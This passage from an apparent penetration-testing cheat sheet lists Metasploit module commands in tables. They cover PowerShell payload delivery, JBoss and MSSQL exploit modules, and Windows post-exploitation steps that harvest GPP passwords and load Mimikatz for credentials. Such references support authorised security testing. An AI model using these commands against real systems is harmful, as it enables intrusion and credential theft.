 <thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>use exploit/multi/script/web_delivery</td>
<td>Metasploit powershell payload delivery module</td>
</tr>
<tr>
<td>post/windows/manage/powershell/exec_powershell</td>
<td>Metasploit upload and run powershell script through a session</td>
</tr>
<tr>
<td>use exploit/multi/http/jboss_maindeployer</td>
<td>Metasploit JBOSS deploy</td>
</tr>
<tr>
<td>use exploit/windows/mssql/mssql_payload</td>
<td>Metasploit MSSQL payload</td>
</tr>
</tbody>
</table>
<h3>Post Exploit Windows Metasploit Modules</h3>
<table>
<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>run post/windows/gather/win_privs</td>
<td>Metasploit show privileges of current user</td>
</tr>
<tr>
<td>use post/windows/gather/credentials/gpp</td>
<td>Metasploit grab GPP saved passwords</td>
</tr>
<tr>
<td>load mimikatz -&gt; wdigest</td>
<td>Metasplit load Mimikatz</td>
</tr>
<tr>
<td>run post/windows/gather/local_admin_search_enum</td>
<td>Idenitfy other machines that the supplied domain user has administrative access to</td>
</tr>
</tbody>
</table>
<h2>Networking</h2>
<h3>TTL Fingerprinting</h3>
<table>
<thead>
<tr>
<th>Operating System</th>
<th>TTL Size</th>
</tr>
</thead>
<tbody>
<tr>
<td>Windows</td>